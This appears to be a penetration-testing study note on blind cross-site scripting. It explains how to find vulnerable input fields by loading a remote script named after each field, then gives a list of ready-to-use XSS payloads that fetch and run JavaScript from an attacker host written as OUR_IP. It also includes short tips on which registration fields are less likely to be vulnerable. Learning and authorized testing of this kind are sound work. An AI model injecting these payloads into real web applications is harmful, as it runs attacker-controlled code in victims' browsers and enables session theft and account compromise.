 To know which input fields are vulnerable, we can try loading a remote `js` file from our machine and changing the request to be the name of the input field i.e. `<script src=http://OUR_IP/username></script>`


> [!NOTE] Note
> Blind XSS has a higher success rate with DOM XSS type of vulnerabilities because of the ability to read the source code and creating a payload based off of it.


```js
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```

> [!NOTE] Note
> For registration forms, email fields are less likely to be vulnerable due to the format requirements being validated by front and back ends. Same with passwords as they'll be hashed
